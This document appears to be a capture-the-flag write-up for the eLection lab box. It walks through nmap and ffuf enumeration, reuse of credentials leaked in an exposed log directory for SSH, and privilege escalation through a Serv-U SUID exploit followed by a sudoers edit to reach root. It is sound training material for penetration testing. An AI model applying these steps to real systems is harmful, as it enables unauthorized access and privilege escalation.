


# eLection

| Name        | Lampiao                       |
| ----------- | ----------------------------- |
| Dificultad: | Intermediate                  |
| SO:         | Linux                         |
| Tipo:       | VulnHub - OffSec Play Grounds |

```shell
192.168.157.211
```

## Enumeration
### Nmap
```shell
nmap 192.168.157.211 -sV -sC -p- --min-rate=1000

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


sudo nmap 192.168.157.211 -p- --min-rate=1000 -sU
```
### Ffuf
```shell
ffuf -w /home/kali/Documents/SecLists/Discovery/Web-Content/common.txt -u http://192.168.157.211/FUZZ

ffuf -w /home/kali/Documents/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt -u http://192.168.157.211/FUZZ
```


```shell
javascript
phpmyadmin
phpinfo.php
robots.txt
server-status
election
```
#### robots.txt
```shell
http://192.168.157.211/robots.txt

admin
wordpress
user
election
```
### Web Enumeration - /election
```shell
http://192.168.157.211/election/
```

We have found a web service running a web-based election system called eLection.
- https://sourceforge.net/projects/election-by-tripath/

And for this service we found the following exploit:
- https://www.exploit-db.com/exploits/48122
- https://medium.com/@h.kehn1/election-2-0-authenticated-remote-code-execution-vulnerability-f603491adb74
But it is an authenticated SQLi, then we need credentials.

```shell
ffuf -w /home/kali/Documents/SecLists/Discovery/Web-Content/common.txt -u http://192.168.157.211/election/FUZZ

admin
data
media
themes
```
- The `/admin` subdirectory looks interesting

- Is asking for a admin's ID, let's search for default credentials



- We tried the default password but it did not work, then we must to find a possible password. Let's keep enumerating
#### /election/admin
We must take into consideration that `/admin` does not look like an endpoint but is more like a subdirectory, what if we continue enumerating subdirectories then?
```shell
ffuf -w /home/kali/Documents/SecLists/Discovery/Web-Content/common.txt -u http://192.168.157.211/election/admin/FUZZ

ajaz
components
css
img
inc
js
logs
plugins
```

```shell
http://192.168.157.211/election/admin/logs/

Love
love

P@$$w0rd@123
```
- We found a log file with a pair of credentials


- This password didn't work


## Foothold
With the user and password we found we can't connect to the eLection service but we know there is another service running that works with credentials.
### SSH Connection
```shell
ssh love@192.168.157.211
P@$$w0rd@123
```


## Privilege Escalation
### Basic Enumeration
```shell
sudo -l
sudo -V
```

```shell
find / -writable -type d 2>/dev/null
find / -writable -type f 2>/dev/null | grep -v "/proc/" | grep -v "/sys/"
```
### SUID
```shell
find / -perm -u=s -type f 2>/dev/null

/usr/bin/traceroute6.iputils
/usr/local/Serv-U/Serv-U
/usr/lib/eject/dmcrypt-get-device
```

- There are some interesting binaries with SUID permissions, let's explore them:
#### /usr/bin/traceroute6.iputils
Nothing here.

#### /usr/local/Serv-U/Serv-U
We found two exploit for privilege escalation. The first one compiling a `c` binary:
- https://www.exploit-db.com/exploits/47009
And the second one a bash script file:
- https://www.exploit-db.com/exploits/47173

#### CVE-2019-12181 - EDB-ID-47173 - .sh
- https://www.exploit-db.com/exploits/47173
```shell
chmod +x ./SUroot

./SUroot
```

- At this point we can execute root commands but we don't have a shell as root
### Shell as Root
Some options are to add a new user, modify the `/etc/passwd` file, or modify the `/etc/sudoers` file. Let's try the last one:
```shell
nano /etc/sudoers

love ALL=(ALL:ALL) ALL
```


```shell
sudo su
```


# Flags
```shell
/home/love/local.txt
/root/proof.txt
```


